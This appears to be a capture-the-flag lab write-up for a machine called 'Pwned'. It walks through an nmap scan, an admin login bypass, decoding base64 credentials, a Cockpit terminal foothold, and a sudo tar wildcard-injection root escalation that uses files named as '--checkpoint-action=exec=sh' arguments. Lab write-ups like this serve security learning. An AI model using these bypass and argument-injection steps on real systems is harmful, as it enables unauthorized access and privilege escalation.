 
#Pwned
```IP
192.168.232.10
```
## Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.232.10 -vvv -p- -oN enum/full
```
The output being:
```
PORT     STATE SERVICE         REASON         VERSION
22/tcp   open  ssh             syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                       
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCmPOfERLKCxx+ufQz7eRTNuEEkJ+GX/hKPNPpCWlTiTgegmjYoXQ7MA5ibTRoJ6vxpPEggzNszJKbBrSVAbRuT2sBg4o7ywiGUy7vsDBpObMrBMsdKuue3gpkaNF8DL2pB3v/XAxtavq1Mh4vz4yj99cc2pX1GhSjpQTWlsK8Rl9DmBKp7t0XxEWwq3juQ9JiN5
yAttMrbTDjwMNxcipsYv0pMudDBE6g4gQyiZGwuUfBn+HirxnfRr7KkxmBaEpZgukXSJ7fXYgpQVgNP2cvd2sy/PYe0kL7lOfYwG/DSLWV917RPIdsPPQYr+rqrBL7XQA2Qll30Ms9iAX1m9S6pT/vkaw6JQCgDwFSwPXrknf627jCS7vQ8mh8UL07nPO7Hkko3fnHIcxyJggi/BoAAi3GseOl7vCZl28+waWlNdbR8
gaiZhDR1rLvimcm3pg3nv9m+0qfVRIs9fxq97cOEFeXhaGHXvQL6LYGK14ZG+jVXtPavID6txymiBOUsj8M=
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAweAzke7+zPt3Untb06RlI4MEp+vsEJICUG+0GgPMp+vxOdxEhcsVY0VGyuC+plTRlqNi0zNv1Y0Jj0BYRMSUw=
|   256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)        
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPJP5z2Scxa02tfhI1SClflg5QtVdhMImHwY7GugVtfY
80/tcp   open  http            syn-ack ttl 61 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: blaze
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD                                                                         
|_http-server-header: Apache/2.4.41 (Ubuntu)
```
Looks like our target system is running an Ubuntu 20.04.6 LTS

## HTTP 80
apache 2.4.41
```
login.php
logout.php
blocked.html
db_config.php
```

## HTTP 9090
server blaze
# Exploitation
in /login.php we can get in as admin:''
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241125090028.png?raw=true)
we can convert them with
```
echo 'dGhpc3NjYW50dGJldG91Y2hlZGRANDU1MTUy'  | base64 -d
```
we seem to have a set of credentials
```
james:canttouchhhthiss@455152
```
```
cameron:thisscanttbetouchedd@455152
```
we aren't able to SSH with either of them but we can use them on the blaze server in 9090

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241124180708.png?raw=true)
we can enter with james:canttouchhhthiss@455152
we get cockpit version 215
we have a terminal and we can get initial foothold
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241125091617.png?raw=true)

# PrivEsc

## Manual
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241125091922.png?raw=true)
```
sudo -l
```
it seems like we have access to this command
```
(ALL) NOPASSWD: /usr/bin/tar -czvf /tmp/backup.tar.gz *
```
we search how to scape it in GTFObins
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241125094214.png?raw=true)
we need 2 files with names as the highlighted parameters in order to tar to execute them
we create 2 files as follows in /tmp:
```
echo '' > /tmp/'--checkpoint=1'
```
eventhough we can't create files with a '/' character, we have sh in path so we could create the other file as follows:
```
touch ./'--checkpoint-action=exec=sh'
```


![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241125094048.png?raw=true)

when executing the command we gain root access
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241125094004.png?raw=true)
we now have proof.txt

## Automated

### Peass
### Mimikatz

# Lateral Movement

